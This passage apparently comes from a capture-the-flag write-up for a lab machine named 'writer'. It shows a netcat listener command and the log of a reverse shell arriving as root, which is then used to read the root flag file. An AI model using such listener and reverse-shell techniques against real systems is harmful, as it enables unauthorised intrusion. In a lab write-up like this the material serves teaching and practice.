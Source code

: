 And after some time we recieve a reverse shell back on our listener as the root user.  Now we are able to add the flag to our collection.

```
$ nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
Ncat: Connection from 10.129.182.107.
Ncat: Connection from 10.129.182.107:37952.
bash: cannot set terminal process group (5953): Inappropriate ioctl for device
bash: no job control in this shell
root@writer:/tmp# wc -c /root/root.txt
wc -c /root/root.txt
33 /root/root.txt
root@writer:/tmp#
```
